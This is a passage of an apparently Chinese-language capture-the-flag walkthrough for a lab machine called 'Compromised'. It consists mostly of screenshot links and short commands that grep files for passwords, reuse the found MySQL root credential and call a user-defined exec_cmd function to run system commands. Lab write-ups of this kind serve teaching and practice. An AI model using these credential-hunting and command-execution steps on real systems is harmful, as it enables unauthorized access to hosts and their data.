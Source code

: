 ![]({{ site.url }}/assets/Compromised_207.assets/20201118210131006_1142244784.png)

用户目录进不去，不能查看ssh信息，用户sysadmin

![]({{ site.url }}/assets/Compromised_207.assets/20201118210258548_1351764155.png)

在文件中搜索password

`find ./ |xargs grep -ri 'password' --color=always`

![]({{ site.url }}/assets/Compromised_207.assets/20201118211154988_870651472.png)

应该是数据库链接设置文件

查看

![]({{ site.url }}/assets/Compromised_207.assets/20201118211320737_85719246.png)

`root:changethis`

![]({{ site.url }}/assets/Compromised_207.assets/20201118211631070_1869324032.png)

必须带密码，

![]({{ site.url }}/assets/Compromised_207.assets/20201118211710163_43250214.png)

可以，直接使用-e执行mysql命令

`mysql -u root --password=changethis -e "show databases;"`

![]({{ site.url }}/assets/Compromised_207.assets/20201118212147007_1056874012.png)

直接查mysql user看看是否有能利用但凭证

![]({{ site.url }}/assets/Compromised_207.assets/20201118212740732_1044275347.png)

说没有passwprd字段，查询一下字段

`mysql -u root --password=changethis -e "select column_name from information_schema.columns where table_name='user' and table_schema='mysql';"`

![]({{ site.url }}/assets/Compromised_207.assets/20201118212940764_1899393745.png)

没有能利用的。

查看是否有命令执行，

`mysql -u root --password=changethis -e "use mysql; select * from func"`

![]({{ site.url }}/assets/Compromised_207.assets/20201118213255678_766259560.png)

能执行系统命令

`mysql -u root --password=changethis -e "select exec_cmd('id')"`

![]({{ site.url }}/assets/Compromised_207.assets/20201118213425252_64993861.png)
